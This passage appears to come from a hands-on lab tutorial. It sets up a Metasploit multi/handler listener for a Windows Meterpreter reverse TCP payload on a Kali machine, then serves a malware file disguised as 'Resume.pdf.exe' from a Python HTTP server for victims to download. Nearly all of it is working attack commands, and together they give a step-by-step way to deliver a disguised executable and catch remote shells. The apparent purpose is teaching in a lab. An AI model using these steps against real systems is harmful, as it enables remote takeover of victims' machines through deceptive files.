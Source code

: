 Select the **multi/handler** module:

```bash
use exploit/multi/handler
```

Show current options:

```bash
options
```

Note: The **default payload** is usually `generic/shell_reverse_tcp`. We’ll change it to match our malware:

```bash
set payload windows/x64/meterpreter/reverse_tcp
```

Press `Tab` if unsure—it helps autocomplete!

Now re-check options:

```bash
options
```

Set the correct LHOST:

```bash
set LHOST <Kali IP>
set LHOST 192.168.20.11
```

Start the listener:

```bash
exploit
```

🎯 You are now listening for connections on port 4444.

---

### 🌐 Step 5: Share Malware via HTTP Server

In a **new terminal tab**, make sure you're in the same directory as `Resume.pdf.exe`, then start a Python HTTP server:

```bash
python3 -m http.server 9999
```

✅ Use any available port (e.g., 9999).

Your Kali machine is now hosting the malware at:

```
http://192.168.20.11:9999
```

---
